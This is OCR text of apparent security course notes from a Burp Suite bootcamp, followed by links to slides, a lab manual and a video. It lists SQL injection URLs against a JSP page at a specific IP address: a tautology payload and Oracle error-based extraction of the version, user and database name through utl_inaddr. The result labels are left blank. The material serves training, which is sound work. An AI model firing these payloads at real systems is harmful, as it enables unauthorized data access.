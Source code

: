

http://54.69.156.253:8081/bookcompany/faq.jsp?id=111&qid=1' OR '1'='1















http://54.69.156.253:8081/bookcompany/faq.jsp?id=111&qid=1' or 1=utl_inaddr.get_host_address((select banner from v$version where rownum=1))--


Host is running:





http://54.69.156.253:8081/bookcompany/faq.jsp?id=111&qid=1' or 1=utl_inaddr.get_host_address((SELECT user FROM dual))--

User is:





http://54.69.156.253:8081/bookcompany/faq.jsp?id=111&qid=1' or 1=utl_inaddr.get_host_address((SELECT global_name FROM global_name))--

Current database is:


#######################
# Burp Suite Bootcamp #
#######################
http://data.serviceplatform.org/wsdl_grabbing/seekda-wsdls.with_ini/36-CurrencyConvertor.wsdl


####################
# Course Materials #
####################

Slides:
https://s3.amazonaws.com/StrategicSec-Files/BurpSuiteBootcamp/WebAppSecIsNotEasyButCanBeSimple.pptx
https://s3.amazonaws.com/StrategicSec-Files/BurpSuiteBootcamp/Burp+Suite.pptx


Lab Manual:
https://s3.amazonaws.com/StrategicSec-Files/BurpSuiteBootcamp/BurpSuite-Bootcamp-v1.pdf


Day 1 Video:
https://s3.amazonaws.com/StrategicSec-Videos/2015/2015-12-06+09.10+Burp+Suite+Weekend+Bootcamp.mp4


Day 1 Homework:
